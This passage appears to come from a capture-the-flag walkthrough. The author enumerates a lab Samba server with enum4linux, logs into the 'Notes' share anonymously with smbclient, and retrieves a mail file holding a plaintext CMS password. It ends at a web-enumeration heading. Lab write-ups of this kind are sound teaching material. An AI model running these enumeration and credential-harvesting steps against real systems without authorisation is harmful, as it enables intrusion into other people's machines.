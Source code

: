 Enumerating with enum4linux I found a system user and a shared folder named Notes.

```bash
root@kali:~$ enum4linux -a 192.168.179.162
...
 ================================ 
|    Users on 192.168.179.162    |
 ================================ 
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: silky    Name: Silky     Desc: 

user:[silky] rid:[0x3e8]

 ============================================ 
|    Share Enumeration on 192.168.179.162    |
 ============================================ 

        Sharename       Type      Comment 
        ---------       ----      ------- 
        print$          Disk      Printer Drivers
        Notes           Disk      My Notes
        IPC$            IPC       IPC Service (ubuntu server (Samba, Ubuntu))
```

An anonymous login to the shared folder Notes allowed me to find a Mail.txt file, so I downloaded it to the attacking machine.

```bash
root@kali:~$ smbclient //192.168.179.162/Notes -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jul 29 08:52:09 2020
  ..                                  D        0  Thu Jul 30 14:32:11 2020
  Mail.txt                            N      244  Wed Jul 29 08:52:05 2020

                19992176 blocks of size 1024. 10688056 blocks available
                
smb: \> get Mail.txt
getting file \Mail.txt of size 244 as Mail.txt (2.9 KiloBytes/sec) (average 2.9 KiloBytes/sec)
```

This file contains a password for the silky user.

```bash
root@kali:~$ cat Mail.txt 
Hi Silky
because of a current Breach we had to change all Passwords,
please note that it was a 0day, we don't know how he made it.

Your new CMS-password is now 51lky571k1, 
please investigate how he made it into our Admin Panel.

Cheers Boss.
```

### Web Enumeration
